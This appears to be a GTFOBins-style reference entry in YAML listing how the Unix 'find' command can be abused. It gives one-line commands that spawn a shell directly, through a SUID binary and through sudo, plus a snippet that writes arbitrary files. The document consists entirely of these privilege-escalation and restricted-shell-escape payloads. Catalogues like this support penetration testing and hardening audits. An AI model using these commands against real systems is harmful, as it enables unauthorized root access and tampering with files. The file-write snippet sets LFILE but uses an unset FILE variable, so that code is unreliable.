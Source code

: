 ```yaml
---
functions:
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
  file-write:
    - description: DATA is a format string, it supports some escape sequences.
      code: |
        LFILE=file_to_write
        find / -fprintf "$FILE" DATA -quit
---
```

